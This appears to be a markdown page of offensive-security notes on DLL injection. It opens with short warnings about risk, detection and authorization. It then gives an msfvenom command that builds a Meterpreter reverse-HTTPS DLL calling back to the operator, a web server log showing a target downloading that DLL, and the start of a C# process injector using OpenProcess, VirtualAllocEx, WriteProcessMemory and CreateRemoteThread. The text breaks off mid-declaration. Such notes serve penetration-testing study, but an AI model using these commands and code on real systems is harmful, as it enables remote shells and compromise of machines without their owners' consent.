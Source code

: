 ### Important Notes:

1. **Security Risks**: DLL injection, especially using methods like Word Macros, is highly risky and often used by malware. Any testing or development should be done in an isolated environment.
   
2. **Detection**: Modern security solutions often detect and block DLL injection attempts, especially when combined with scripting languages like VBA.

3. **Legal and Ethical Considerations**: Always ensure you have proper authorization to test or use these techniques.

- create payload and start web server
```bash
❯ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$(hostname -I | cut -d' ' -f1) LPORT=443 -f dll -o met.dll
[sudo] password for roger: 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 781 bytes
Final size of dll file: 9216 bytes
Saved as: met.dll
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.141 - - [27/May/2024 13:12:35] "GET /met.dll HTTP/1.1" 200 -

```

- modified code to make the web connection more modern
- TODO: migrate the DllImport statements to CsWin32 or convert to c++
```csharp
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;

namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);


        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);


        [DllImport("kernel32.dll")]

        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);


        [DllImport("kernel32.dll")]

        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]

```